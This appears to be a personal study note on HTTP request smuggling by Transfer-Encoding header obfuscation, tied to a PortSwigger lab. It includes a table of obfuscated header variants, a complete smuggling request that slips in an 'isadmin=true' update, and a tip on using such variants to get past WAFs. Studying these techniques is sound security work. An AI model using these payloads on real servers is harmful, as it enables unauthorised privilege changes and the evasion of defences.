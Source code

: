 # Transfer-Encoding Header Obfuscation

- **Both front-end & back-end use TE**.
	
- One of the servers is induced to not process TE by obfuscation
	
- Exploits **malformed or duplicate TE headers**.


![](../../Attachments/Req%20Smug/TE%20Header%20Obfuscations.png)

## 🧪 Common TE Obfuscation Tricks
|Technique|Example Header|Why It Works|
|---|---|---|
|**Non-standard token**|`Transfer-Encoding: xchunked`|Some servers ignore invalid TE values → fallback to CL. Others attempt to parse anyway.|
|**Extra space before colon**|`Transfer-Encoding : chunked`|Certain parsers accept it, others don’t.|
|**Trailing junk after chunked**|`Transfer-Encoding: chunked` `Transfer-Encoding: x`|One server may parse as chunked, another sees invalid TE.|
|**Tab character instead of space**|`Transfer-Encoding:[tab]chunked`|Tabs are legal separators in HTTP/1.1 but not consistently handled.|
|**Leading space in header name**|`[space]Transfer-Encoding: chunked`|Some parsers ignore header, others parse it.|
|**Header smuggling with newline**|`X: X[\n]Transfer-Encoding: chunked`|Injects a hidden TE header. Front-end may ignore, back-end parses it.|
|**Header split across lines**|`Transfer-Encoding\r\n: chunked`|Newline before colon splits parsing logic between servers.|
|**Multiple TE headers**|`Transfer-Encoding: chunked` `Transfer-Encoding: cow`|Some servers use **first header**, others use **last**.|
|**Case manipulation**|`tRaNsFeR-eNcOdInG: ChUnKeD`|Case-insensitivity is required by RFC, but parsing bugs exist.|
|**Comma-separated encodings**|`Transfer-Encoding: gzip, chunked`|RFC-compliant but often mis-parsed → servers disagree on order.|

It is necessary to find some variation of the TE header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

![](../../Attachments/Req%20Smug/TE%20Obfuscation%20visual.png)
## 📌 **Example**
[[3. Basic Obfuscating the TE header]] (with full methodology)

Other one:
```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
💥 Result:
- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.    
- Back-end interprets differently (or falls back to CL).
- Smuggled request (`POST /update`) is executed.

https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

> **Pro tip:** TE obfuscation is **essential for bypassing WAFs** and modern defenses. If a clean CL.TE/TE.CL payload is blocked, fuzzing TE variants often works.